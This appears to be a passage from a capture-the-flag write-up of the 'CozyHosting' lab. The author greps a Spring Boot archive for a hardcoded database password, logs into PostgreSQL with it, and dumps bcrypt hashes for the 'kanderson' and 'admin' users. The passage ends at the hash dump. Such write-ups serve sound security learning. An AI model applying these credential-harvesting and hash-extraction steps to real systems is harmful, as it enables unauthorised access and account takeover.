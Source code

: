 ```
BOOT-INF/classes/templates/login.html:                                        <input type="password" name="password" class="form-control" id="yourPassword"
BOOT-INF/classes/templates/login.html:                                        <div class="invalid-feedback">Please enter your password!</div>
BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
grep: (standard input): binary file matches
```

The above password works and we can login to the database:

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can enumerate this database. There are a few databases available:

```
postgres=# select datname from pg_database;
 ESC[H   datname   
-------------
 postgres
 cozyhosting
 template1
 template0
```

Using the `cozyhosting` database, we can find a `users` table:

```
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```

When we extract all data from it, we get 2 hashes:

```
cozyhosting=# select * from users;
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
